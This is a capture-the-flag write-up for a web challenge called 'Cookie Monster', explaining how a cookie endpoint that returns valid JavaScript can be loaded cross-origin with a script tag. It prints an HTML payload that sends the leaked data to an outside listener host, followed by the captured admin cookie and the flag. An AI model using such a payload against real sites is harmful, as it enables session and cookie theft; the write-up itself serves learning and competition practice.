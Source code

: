 # Cookie Monster
Web (170 points, 21 solves)

## Challenge 

My friend sent me this [monster](https://files.actf.co/ff3493399d3dce8d395ccc323ba410f449d628bc10f664282dbbfa3522b7226e/cookie_monster.js) of a [website](https://cookiemonster.2019.chall.actf.co/) - maybe you can figure out what it's doing? I heard the admin here is slightly more cooperative than the other one, though not by much.

Author: lamchcl

## Solution

Note: I did not solve this during the contest. 

Looking at the website, this looks like another XSS problem. We can send the admin a page and he/she will look at it. But where can we inject code? There is no input anywhere?

The source code tells us the answer. We can get cookies from `/cookies`. This is important because this lets us get cookies from another domain, something which usually prevents this kind of attack. Unfortunately, cross origin access is still blocked.

But wait! `<script>` tags don't get blocked by CORS, and since the output of `/cookies` is valid JavaScript, we can just include it as a script! 

I used [Weastie Hack Tools](https://www.weastie.com/hack_tools) [HTTP Request Listener](https://www.weastie.com/hack_tools/listener) along with [HTML Uploader](https://www.weastie.com/hack_tools/html) to serve this HTML:

```html
<script src="https://cookiemonster.2019.chall.actf.co/cookies"></script>
<script>
   var xml = new XMLHttpRequest();
   xml.open('GET', "//weastie.com/l/gah7/" + encodeURIComponent(Object.keys(window)));
   xml.send();
</script>
```

We get our cookie `admin_FtiwZurLxCv7lweCChF_YQLkJ5n3LgfM86ACY_YPh1Y=`. Accessing `/getflag` with this cookie gives us our flag. 

## Flag

```
actf{defund_is_the_real_cookie_monster}
```

